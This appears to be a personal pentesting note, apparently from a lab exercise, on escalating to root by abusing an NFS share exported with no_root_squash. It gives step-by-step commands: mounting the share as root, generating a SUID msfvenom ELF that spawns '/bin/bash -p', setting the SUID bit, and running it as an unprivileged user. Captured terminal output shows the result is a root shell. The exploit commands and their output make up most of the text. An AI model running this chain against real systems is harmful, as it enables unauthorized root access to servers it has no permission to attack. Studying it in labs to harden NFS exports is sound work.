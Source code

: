 
Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user. If root squashing is off:

`sudo su`
`mkdir /tmp/nfs`
`mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs`

- `-o`: mount options
- `rw`: It stands for "read-write," indicating that the filesystem should be mounted with both read and write permissions. Without this option, the filesystem would be mounted as read-only by default.
- `vers=3`: This specifies the NFS protocol version to use. In this case, it's version 3. NFS (Network File System) is a distributed file system protocol, and version 3 is one of the earlier versions. It's specifying that the NFS share should be accessed using version 3 of the protocol.

`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
`chmod +xs /tmp/nfs/shell.elf`

or use [[executable (elf)]] and copy the file after mounting as root, then set the suid

---

Is root squashing off?
```sh
user@debian:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
```
no_root_squash

NFS will by default change the root user to nfsnobody (and strip any file from operating with root privileges).

Connect to dir as root + create exploit:
```sh
┌──(kali㉿kali)-[~]
└─$ sudo su                  
┌──(root㉿kali)-[/home/kali]
└─# mkdir /tmp/nfs
┌──(root㉿kali)-[/home/kali]
└─# mount -o rw,vers=3 10.10.221.227:/tmp /tmp/nfs
Created symlink /run/systemd/system/remote-fs.target.wants/rpc-statd.service → /usr/lib/systemd/system/rpc-statd.service.
┌──(root㉿kali)-[/home/kali]
└─# msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 48 bytes
Final size of elf file: 132 bytes
Saved as: /tmp/nfs/shell.elf
┌──(root㉿kali)-[/home/kali]
└─# chmod +xs /tmp/nfs/shell.elf
```

run it:
```sh
user@debian:~$ /tmp/shell.elf 
bash-4.1# whoami
root
bash-4.1# exit
exit
user@debian:~$ 
```
